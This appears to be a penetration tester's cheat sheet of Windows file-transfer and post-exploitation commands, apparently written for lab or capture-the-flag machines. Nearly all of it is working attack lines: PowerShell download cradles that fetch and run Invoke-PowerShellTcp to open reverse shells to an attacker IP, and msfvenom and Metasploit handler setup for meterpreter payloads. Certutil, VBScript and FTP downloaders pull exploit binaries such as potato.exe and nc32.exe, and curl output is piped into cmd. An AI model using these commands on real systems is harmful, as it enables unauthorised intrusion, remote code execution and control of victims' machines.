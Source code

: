 ###
https://github.com/egre55/ultimate-file-transfer-list


powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.124:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.124 -Port 8002
```
 @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.14.124:8000/Invoke-PowerShellTcp.ps1'))";Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.124 -Port 4445
 IEX(New-Object Net.WebClient).downloadString('http://10.10.14.124:8000/Sherlock.ps1') ; Find-AllVulns
 ```
powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8001/program.exe' -OutFILE 'C:\Program Files\Autorun Program\program.exe'"
powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8001/Invoke-PowerShellTcp.ps1' -OutFILE 'C:\users\kostas\Desktop\Invoke-PowerShellTcp.ps1'"

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.20.231:8001/shell-.exe','shell.exe')"

powershell -c "Invoke-WebRequest -Uri 'http://10.10.200.223:8000/program.exe' -OutFILE 'C:\Program Files\Autorun Program\program.exe'"

powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8282/39719.ps1' -OutFILE 'C:\Users\kostas\Desktop\39719.ps1'"

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:9005/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"

powershell IEX(New-Object Net.WebClient).downloadString(‘http://<attacking machine>/Empire.ps1')


C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe -ep bypass -File \\10.10.14.124\kali\tools\enumeration\nmapAutomator\10.129.1.127\MS16-032.ps1

###
c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"
###
c:\>powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"
###
c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"
###
If you have your ps1 file downloaded to the victim machine then run using this
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
###
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"


```
certutil -urlcache -split -f http://10.10.14.124:8000/potato.exe
```

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
```
cscript /nologo wget.vbs http://10.10.14.147/churrasco.exe churrasco.exe
cscript /nologo wget.vbs http://10.10.14.147/nc32.exe nc32.exe

```



### PowerShell Cmdlet (Powershell 3.0 and higher)
```
Invoke-WebRequest "https://server/filename" -OutFile "C:\Windows\Temp\filename"
PowerShell One-Liner

(New-Object System.Net.WebClient).DownloadFile("https://server/filename", "C:\Windows\Temp\filename") 
PowerShell One-Line Script Execution in Memory

IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
PowerShell with Proxy

$browser = New-Object System.Net.WebClient;
$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString('https://server/script.ps1'));
PowerShell Script

echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://server/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
Non-interactive FTP via text file. Useful for when you only have limited command execution.

echo open 10.10.10.11 21> ftp.txt
echo USER username>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
		
ftp -v -n -s:ftp.txt
CertUtil

certutil.exe -urlcache -split -f https://myserver/filename outputfilename
Certutil can also be used for base64 encoding/decoding.

certutil.exe -encode inputFileName encodedOutputFileName
certutil.exe -decode encodedInputFileName decodedOutputFileName
Starting with Windows 10 1803 (April 2018 Update) the curl command has been implemented which gives another way to transfer files and even execute them in memory. Piping directly into cmd will run most things but it seems like if you have anything other than regular commands in your script, ie loops, if statements etc, it doesn’t run them correctly.

curl http://server/file -o file
curl http://server/file.bat | cmd
And with PowerShell

IEX(curl http://server/script.ps1);Invoke-Blah
```
